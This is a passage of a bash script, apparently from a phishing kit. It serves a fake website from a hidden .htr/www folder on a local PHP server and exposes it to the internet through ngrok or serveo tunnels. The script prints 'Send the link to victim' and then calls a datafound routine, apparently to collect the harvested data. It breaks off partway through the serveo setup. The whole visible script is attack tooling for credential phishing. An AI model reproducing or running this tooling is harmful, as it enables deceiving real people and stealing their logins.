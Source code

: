 }

start_localhost() {

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m( \e[0m\e[1;96mhttp://127.0.0.1:5555 \e[0m\e[1;92m)\e[0m\n"
cd .htr/www && php -S 127.0.0.1:5555 > /dev/null 2>&1 & 
sleep 2
smallbanner
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Successfully Hosted at :\e[0m\e[1;93m http://127.0.0.1:5555\e[0m\n"

datafound

}

start_ngrok() {

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:5555\e[0m\e[1;91m )\e[0m\n"
sleep 1
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching Ngrok ...\e[0m\n"
cd .htr/www && php -S 127.0.0.1:5555 > /dev/null 2>&1 & 
sleep 2
./.htr/ngrok http 127.0.0.1:5555 > /dev/null 2>&1 &
sleep 7
ngrok_link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[-0-9a-z]*\.ngrok.io")

smallbanner
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $ngrok_link

datafound
}

start_serveo() {

serveo_default_choose_sub="Y"
serveo_default_sub="$website$RANDOM"
serveo_def_port="5555"

printf "\e[0m\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Select a Port \e[0m\e[1;91m( \e[0m\e[1;92mDefault:\e[0m\e[1;96m %s \e[0m\e[1;91m )\e[0m\e[1;92m : \e[0m\e[1;93m' $serveo_def_port
read serveo_port
serveo_port="${serveo_port:-${serveo_def_port}}"
sleep 1
printf "\e[0m\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Generate Custom Link ? \e[0m\e[1;91m[\e[0m\e[1;92mY\e[0m\e[1;91m/\e[0m\e[1;92mn\e[0m\e[1;91m] : \e[0m\e[1;93m'
read serveo_choose_sub
serveo_choose_sub="${serveo_choose_sub:-${serveo_default_choose_sub}}"
if [[ $serveo_choose_sub == "Y" || $serveo_choose_sub == "y" || $serveo_choose_sub == "Yes" || $serveo_choose_sub == "yes" ]]; then
serveo_custom_subdomain=true
sleep 1
printf "\e[0m\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Input CUSTOM Subdomain : \e[0m\e[1;91m( \e[0m\e[1;92mDefault:\e[0m\e[1;93m %s \e[0m\e[1;91m)\e[0m\e[1;92m: \e[0m\e[1;93m' $serveo_default_sub
read serveo_subdomain
serveo_subdomain="${serveo_subdomain:-${serveo_default_sub}}"
sleep 1